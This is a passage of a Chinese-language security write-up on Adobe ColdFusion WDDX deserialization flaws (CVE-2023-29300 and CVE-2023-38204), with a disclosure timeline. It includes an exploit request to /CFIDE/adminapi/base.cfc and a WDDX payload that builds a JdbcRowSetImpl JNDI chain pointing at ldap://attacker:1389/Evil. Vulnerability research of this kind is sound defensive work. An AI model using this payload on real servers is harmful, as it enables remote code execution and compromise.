 ```
POST /CFIDE/adminapi/base.cfc?method HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 365
Content-Type: application/x-www-form-urlencoded

argumentCollection=/* payload */
```

这样我们就能跳过`if`，调用`GetArgumentCollection()`方法将序列化后的恶意数据传入服务器了。

# 0x04 漏洞利用

因此，我们类比 FastJson，不难想到通过调用`JdbcRowSetImpl`类的`setDataSourceName`和`setAutoCommit`两个 setter 方法来构造 JNDI 利用链。此利用链被赋予 CVE 编号 CVE-2023-38204。

```xml
<wddxPacket version='1.0'>
    <header/>
    <data>
        <struct type='xcom.sun.rowset.JdbcRowSetImplx'>
            <var name='dataSourceName'>
                <string>ldap://attacker:1389/Evil</string>
            </var>
            <var name='autoCommit'>
                <boolean value='true'/>
            </var>
        </struct>
    </data>
</wddxPacket>
```

[![pPP4pmF.png](https://s1.ax1x.com/2023/08/02/pPP4pmF.png)](https://imgse.com/i/pPP4pmF)

我们注意到在 WEB-INF/bundles 及其子文件夹 repo 下还存有大量 Jar 包。在“存在即合理”的假设前提下，我们将所有 Jar 添加进了工作环境，在此基础上继续挖掘新的利用链，并成功实现了一种带有限制的新的利用方式。

# 0x05 漏洞时间线

CVE-2023-29300

- 2023.7.11 官方发布安全公告
- 2023.7.12 ProjectDiscovery 分析文章发布，未意识到 0day 公布
- 2023.7.13 ProjectDiscovery 隐藏分析文章
- 2023.7.14 漏洞修复

CVE-2023-38204

- 2023.7.13 漏洞披露（CVE-2023-29300 的具体利用链）
- 2023.7.19 漏洞修复
- 2023.7.19 ProjectDiscovery 开放分析文章
